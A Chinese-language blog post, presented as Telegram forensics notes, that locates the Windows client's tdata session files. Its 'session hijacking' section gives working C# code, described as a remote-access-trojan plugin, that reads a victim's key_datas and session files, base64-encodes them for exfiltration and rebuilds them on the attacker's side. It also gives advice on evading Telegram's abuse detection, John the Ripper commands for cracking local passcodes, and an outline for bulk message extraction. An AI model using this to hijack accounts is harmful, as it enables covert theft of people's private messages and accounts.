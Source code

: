 ```yaml
---
title: Telegram取证相关的记录
date: 2023-4-15 05:40:56
categories: 
- Forensics
tags:
- Forensics
- Telegram
---
```

因为各种原因，接触了一些场景要对Telegram进行信息收集，这里就记录下基本思路，只涉及Windows的官方客户端

# 1.关于tdata

正常安装的Telegram会安装至 `%appdata%\Telegram Desktop`，在这个目录中 `modules`文件夹存放了一个D3D的dll，`tdata`文件夹存放所有数据，`unins000.exe/unins000.dat`文件是卸载相关，`Updater.exe`是升级程序。所以对我们最有意义的就是这个 `tdata`文件夹。

在 `tdata`文件夹中，保存着登录信息及本地缓存的聊天及文件等，主要关注登录信息部分即可

## **key_datas**

保存了解密其他文件的主密钥 `localKey`

## **D877F783D5D3EF8Cs**

存储了用户的userId，以及此session的通信密钥

## **D877F783D5D3EF8C/maps**

存储了用户的基本信息和一些配置

## 多用户登录的情况

对于有多个用户登录的Telegram，会有其他类似D877F783D5D3EF8C的存在，根据命名方法可以按照顺序生成为

```
D877F783D5D3EF8C
A7FDF864FBC10B77
F8806DD0C461824F
C2B05980D9127787
0CA814316818D8F6
……
```

# Session劫持

综上所属，存在 `key_datas，D877F783D5D3EF8Cs，D877F783D5D3EF8C/maps`三个文件即包含登录使用的所有信息，也就足够进行劫持

对于多用户登录的场景，可以根据情况下载其他用户的对应文件，附此前远控内提取Telegram相关的客户端插件及服务端处理函数

```csharp
using System;
using System.Diagnostics;
using System.IO;
using System.IO.Compression;
using System.Threading;
using System.Text;

namespace Creeper
{
    public static class Program
    {
        private static readonly string Telegram = Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData), "Telegram Desktop");
        public static string pluginMain(string[] args)
        {
            if (!Directory.Exists(Telegram)) return new string[] { "Log", "Not Found Telegram" };
            string[] paths =
            {
                "tdata\\key_datas",
                "tdata\\D877F783D5D3EF8Cs",
                "tdata\\D877F783D5D3EF8C\\maps",
                "tdata\\A7FDF864FBC10B77s",
                "tdata\\A7FDF864FBC10B77\\maps",
                "tdata\\F8806DD0C461824Fs",
                "tdata\\F8806DD0C461824F\\maps",
                "tdata\\C2B05980D9127787s",
                "tdata\\C2B05980D9127787\\maps",
                "tdata\\0CA814316818D8F6s",
                "tdata\\0CA814316818D8F6\\maps",
            };
            StringBuilder sb = new StringBuilder();
            foreach (var path in paths)
            {
                if (File.Exists(Path.Combine(Telegram, path)))
                {
                    sb.Append(path);
                    sb.Append("-=>");
                    sb.Append(Convert.ToBase64String(File.ReadAllBytes(Path.Combine(Telegram, path))));
                    sb.Append("-=>");
                }
            }
            if (sb.Length>0)
            {
                return new string[] { "telegram", sb.ToString() };
            }
            return new string[] { "Log", "Not Found Telegram" };
        }
    }
}
```

```csharp
using System;
using System.IO;
using System.Diagnostics;
using System.Windows.Forms;

namespace Demo
{
    internal class Program
    {
        static void Telegram(string message)
        {
            string tempPath = Path.Combine(Application.StartupPath, "Output",  "Telegram");
            if (!Directory.Exists(tempPath))
            {
                Directory.CreateDirectory(tempPath);
            }
            if (!Directory.Exists(tempPath + "\\tdata"))
                Directory.CreateDirectory(tempPath + "\\tdata");

            if (!Directory.Exists(tempPath + "\\tdata\\D877F783D5D3EF8C"))
                Directory.CreateDirectory(tempPath + "\\tdata\\D877F783D5D3EF8C");
            if (!Directory.Exists(tempPath + "\\tdata\\A7FDF864FBC10B77"))
                Directory.CreateDirectory(tempPath + "\\tdata\\A7FDF864FBC10B77");
            if (!Directory.Exists(tempPath + "\\tdata\\F8806DD0C461824F"))
                Directory.CreateDirectory(tempPath + "\\tdata\\F8806DD0C461824F");
            if (!Directory.Exists(tempPath + "\\tdata\\C2B05980D9127787"))
                Directory.CreateDirectory(tempPath + "\\tdata\\C2B05980D9127787");
            if (!Directory.Exists(tempPath + "\\tdata\\0CA814316818D8F6"))
                Directory.CreateDirectory(tempPath + "\\tdata\\0CA814316818D8F6");

            string[] sb = message.Split(new[] { "-=>" }, StringSplitOptions.None);
            for (int i = 0; i < sb.Length; i++)
            {
                if (sb[i].Length > 0)
                {
                    try
                    {
                        File.WriteAllBytes(Path.Combine(tempPath, sb[i]), Convert.FromBase64String(sb[i + 1]));
                    }
                    catch { }
                }
                i += 1;
            }
            Process.Start("explorer.exe", tempPath);
        }
    }
}

```

获取关键文件后，即可直接使用最新版Telegram客户端exe配合进行登录，如果需要可以直接使用客户端自带的导出功能进行取证

注：去年年底以来，同session多地登录有可能触发TG官方的防滥用机制，所以劫持需谨慎，建议在目标机器上搭建反向代理并通过代理访问劫持的Telegram Session，或者错峰登录在对方休息时结束目标机器Telegram进程并自己本地登录

# 本地登录密码

很多人会为Telegram设置本地登录密码，可以使用[john-the-ripper](https://github.com/openwall/john/tree/bleeding-jumbo)进行爆破。

```
python .\run\telegram2john.py "\path\to\Telegram Desktop\tdata\key_datas" > .\tg.hash
#报错的话，不要按照提示安装PyCrypto，改为安装pycryptodome
.\run\john.exe --format=telegram --wordlist=password.txt ./tg.hash
```

注:报错的话，不要按照提示安装PyCrypto，改为安装pycryptodome

# 消息记录提取

在劫持Session后有时候不方便使用Telegram的客户端自带的导出，也是为了大批量自动化考虑，可以使用第三方客户端进行消息记录的提取

过程较为复杂，且没有完整优雅的代码实现，就不放成品了，大概思路如下

使用[opentele](https://github.com/thedemons/opentele/)将tdata转为[Telethon](https://github.com/LonamiWebs/Telethon)可用的session，之后进行具体消息提取的实现

提取时可以忽略公开群组及公开频道的消息，可以大幅提高速度

# 未完待续

……
